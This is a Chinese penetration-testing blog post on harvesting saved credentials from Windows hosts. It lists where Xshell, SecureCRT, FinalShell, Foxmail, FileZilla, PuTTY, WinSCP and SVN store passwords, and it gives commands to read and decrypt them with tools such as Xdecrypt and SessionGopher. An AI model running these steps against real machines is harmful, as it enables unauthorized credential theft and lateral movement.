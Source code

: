 # 内网渗透-Windows凭据收集之Xshell、SecureCRT等其他凭据(10)

  
  
&lt;!--more--&gt;  
## xshell  
XShell 5 `%userprofile%\Documents\NetSarang\Xshell\Sessions`  
XFTP 5 `%userprofile%\Documents\NetSarang\Xftp\Sessions`  
XShell 6 `%userprofile%\Documents\NetSarang Computer\6\Xshell\Sessions`  
XFTP 6 `%userprofile%\Documents\NetSarang Computer\6\Xftp\Sessions`  
5.x之后的版本，默认放在了当前用户的Documents目录下的NetSarang目录中  
```  
#dir&#34;%userprofile%\Documents\NetSarang\Xshell\Sessions&#34;  
#dir &#34;%userprofile%\Documents\NetSarang\Xftp\Sessions&#34;  
```  
6.x之后的版本，放在了当前用户的Documents目录下，目录改了名叫`NetSarang Computer`  
```  
#dir&#34;%userprofile%\Documents&#34;  
#dir&#34;%userprofile%\Documents\NetSarang Computer\6\Xshell\Sessions&#34;  
#dir&#34;%userprofile%\Documents\NetSarang Computer\6\Xftp\Sessions&#34;  
```  
https://github.com/dzxs/Xdecrypt  
```  
python Xdecrypt.py -s &#34;username&#34;&#43;&#34;S-1-5-21-3236955782-1939288761-1217588242-1001&#34; -p &#34;C:\Users\win10\Documents\NetSarang\Xshell\Sessions&#34;  
```  
## FinalShell  
尝试把`json`文件拿回来然后进去解密  
`C:\Users\win10\AppData\Local\finalshell\conn`  
https://github.com/passer-W/FinalShell-Decoder  
## SecureCRT  
在不同版本的SecureCRT中`%APPDATA%\VanDyke\Config\Sessions\example.com.ini`配置中对应的password可能是不一样的，有些密码存储在password项，有些存储的是`Password V2`项，具体类似如下  
```  
S:&#34;Password&#34;  
=u17cf50e394ecc2a06fa8919e1bd67cf0f37da34c78e7eb87a3a9a787a9785e802dd0eae4e8039c3ce234d34bfe28bbdc  
S:&#34;Password V2&#34;=02:7b9f594a1f39bb36bbaa0d9688ee38b3d233c67b338e20e2113f2ba4d328b6fc8c804e3c02324b1eaad57a5b96ac1fc5cc1ae0ee2930e6af2e5e644a28ebe3fc  
```  
这两者之间的加解密方法是有区别的。具体一般以SecureCRT 7.3.3版本进行分界。之前的版本一般会使用password加密算法，之后的一般使用password v2算法。  
**低版本**  
拿文件回来直接用脚本看  
https://github.com/gitPoc32/Forensic/tree/master/VanDykeSecureCRT  
`python2 SecureCRT-decryptpass.py 172.16.81.134.ini`  
**高版本**  
整个目录拷回来，直接连接  
对于高版本对，可以把`%APPDATA%\VanDyke\Config\`整个目录拷贝到本机SecureCRT的Config目录下，然后直接连接。但版本要与目标的一致，否则可能出问题。  
```  
找到目标securecrt保存在本地的所有连接会话文件，默认都存放在当前用户数据目录下的Config目录下的Sessions目录中,以.ini命名  
%APPDATA%\VanDyke\Config\Sessions  
C:\Users\win10\AppData\Roaming\VanDyke\Config\Sessions  
```  
**teamserver**  
https://github.com/Enul1ttle/Tools/tree/69c0552dfd47f2483782824d2e92c857978f4ed9  
**foxmail**  
```  
[Foxmail 7.2 版]  
C:\Program Files\Foxmail 7.2\Storage\&lt;account_emailaddress&gt;\Accounts\Account.rec0  
  
[Foxmail 7.0 版]  
C:\Program Files\Foxmail 7.0\Data\AccCfg\Accounts.tdat  
  
[Foxmail 6 版.x]  
C:\Program Files\Foxmail\mail\&lt;account_emailaddress&gt;\Account.stg  
```  
https://github.com/StarZHF/Foxmail-Password-Recovery  
**FileZilla**  
存放路径`C:\Users\win10\AppData\Roaming\FileZilla\recentservers.xml`  
base64解码即可  
**PuTTY**  
获取连接记录  
`HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\`  
https://www.sec-in.com/article/463  
**WinSCP**  
`reg query &#34;HKEY_USERS\S-1-5-21-3448889457-1595340786-1372807316-1000\Software\Martin Prikryl\WinSCP 2\Sessions&#34;`  
https://github.com/anoopengineer/winscppasswd  
`winscppasswd.exe 192.168.0.109 root pass`  
https://github.com/Arvanaghi/SessionGopher 提取WinSCP、PuTTY等保存的会话信息  
```  
. .\SessionGopher.ps1  
Invoke-SessionGopher -Thorough  
```  
**svn**  
`C:\Users\win10\AppData\Roaming\Subversion\auth\svn.simple`  
http://www.leapbeyond.com/ric/tsvnpd/ 或者 laZagne  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-windows%E5%87%AD%E6%8D%AE%E6%94%B6%E9%9B%86%E4%B9%8Bxshellsecurecrt%E7%AD%89%E5%85%B6%E4%BB%96%E5%87%AD%E6%8D%AE10/  

